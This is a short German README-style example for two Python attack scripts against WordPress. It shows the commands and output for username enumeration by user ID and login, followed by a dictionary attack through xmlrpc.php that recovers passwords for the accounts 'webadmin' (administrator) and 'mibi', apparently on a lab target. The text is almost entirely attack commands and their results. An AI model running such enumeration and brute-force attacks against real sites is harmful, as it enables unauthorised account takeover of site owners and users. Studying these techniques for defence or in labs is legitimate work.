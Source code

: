 ## Example
Findet user mibi per ID und user webadmin per liste. 
### Username Enum

* ` ./user_enum_wp.py --url http://wordpress -u ../wordlists/usernames.lst`

```
| Start User Enum Script
[#] Enumartion via User ID from 1 to 100
[#] Enumartion via Login with 79 Usernames
| Valide Usernames: ['mibi', 'webadmin']
| End
```

### Wörterbuch Angriff
* ` ./brute_force_wp.py --url http://wordpress -U webadmin mibi -p ../password_collector/wordlist_374.lst -m x`

```
| Start Brute Force Script
[?] Load 2 Usernames and 374 Passwords
[#] Use Methode: xmlrpc.php
Username: webadmin - Progress: [278/374]  H@ckingPython! <= Valide - is Administrator

Username:     mibi - Progress: [374/374]   nostrumM@gnam

| Findings:
webadmin : H@ckingPython! - is Administrator

| End
```
